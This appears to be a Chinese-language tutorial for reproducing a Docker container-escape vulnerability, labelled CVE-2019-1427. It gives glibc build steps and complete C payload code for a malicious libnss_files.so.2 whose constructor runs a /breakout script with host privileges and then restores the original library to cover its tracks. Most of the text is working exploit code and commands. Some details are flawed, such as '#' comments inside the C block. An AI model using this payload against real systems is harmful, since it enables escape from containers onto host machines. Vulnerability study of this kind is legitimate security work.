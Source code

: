 ```bash
mkdir cve-2019-1427 && cd cve-2019-1427
wget https://ftp.gnu.org/gnu/glibc/glibc-2.27.tar.gz
tar -zxvf glibc-2.27.tar.gz
cd glibc-2.27
vi Makeconfig
```

首先要注释掉 `gccwarn-c = -Wstrict-prototypes -Wold-style-definition`，避免加入 payload 后编译失败。

![image-20211123165559022](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211123165559022.png)

在 `./nss/nss_files` 目录下任意源码文件中添加 payload。以 `files-service.c` 为例。

```bash
vi ./nss/nss_files/files-service.c
```

在files-service.c中添加如下内容（中文去掉，否则安装会报错）：

```c
// content should be added into nss/nss_files/files-service.c
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/wait.h>

# 容器内部原始 libnss_files.so.2 文件备份位置
#define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
# 恶意 libnss_files.so.2 文件位置
#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"
 
bool is_priviliged();
 
__attribute__ ((constructor)) void run_at_link(void) {
     char * argv_break[2];
  // 判断是否容器外是高权限执行，即 docker-tar
     if (!is_priviliged())
           return;
 
  // 攻击执行一次即可，用原始的替换备份的库文件
  // 避免后续对环境产生影响
     rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
  
    // 以 docker-tar 运行 /breakout 恶意脚本
  	if (!fork()) {
        // Child runs breakout
        argv_break[0] = strdup("/breakout");
        argv_break[1] = NULL;
        execve("/breakout", argv_break, NULL);
     }
     else
        wait(NULL); // Wait for child
 
     return;
}

bool is_priviliged() {
     FILE * proc_file = fopen("/proc/self/exe", "r");
     if (proc_file != NULL) {
           fclose(proc_file);
           return false; // can open so /proc exists, not privileged
     }
     return true; // we're running in the context of docker-tar
}
```
